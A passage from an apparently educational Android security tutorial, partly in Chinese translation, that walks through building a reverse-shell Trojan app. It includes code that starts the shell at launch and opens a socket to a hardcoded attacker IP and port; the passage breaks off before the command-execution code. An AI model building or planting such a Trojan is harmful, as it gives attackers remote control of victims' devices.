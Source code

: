         <TextView android:text="Trojan Demo" android:layout_width="wrap_content"
            android:layout_height="wrap_content" />

    </RelativeLayout>
    ```

    正如我们在前面的代码片段中所看到的，我们已经稍微修改了`activity_main.xml`文件，将`TextView`的值从**Hello World**更改为**特洛伊木马演示**。保存前一段代码后，用户界面应如以下屏幕截图所示：

    ![Writing a simple reverse shell Trojan using socket programming](../Images/image01511.jpeg)

3.  Now open up `MainActivity.java` and declare objects for the `PrintWriter` and`BufferedReader` classes as shown in the following excerpt. Additionally, call the `getReverseShell()` method within the `onCreate` method of the `MainActivity` class. Following is the code for `MainActivity.java`:

    ```
    public class MainActivity extends ActionBarActivity {

        PrintWriter out;
        BufferedReader in;

        @Override
        protected void onCreate(Bundle savedInstanceState) {
            super.onCreate(savedInstanceState);
            setContentView(R.layout.activity_main);

            getReverseShell(); 

        }
    ```

    `getReverseShell`是一种方法，我们在运行应用程序的 Android 设备上编写获取外壳的实际代码。

4.  Next step is to write code for the `getReverseShell()` method. This is the main part of the application. We will add Trojan capabilities to the app by writing code within this method. The goal is to achieve the following functions:

    *   声明攻击者侦听连接的服务器 IP 和端口
    *   编写代码以接收攻击者发送的传入命令
    *   执行攻击者发送的命令
    *   将已执行命令的输出发送给攻击者

        ```
        private void getReverseShell() {

          Thread thread = new Thread() {

          @Override
          public void run() {

            String SERVERIP = "10.1.1.4";

            int PORT = 1337;

            try {

              InetAddress HOST = InetAddress.getByName(SERVERIP);

              Socket socket = new Socket(HOST, PORT);
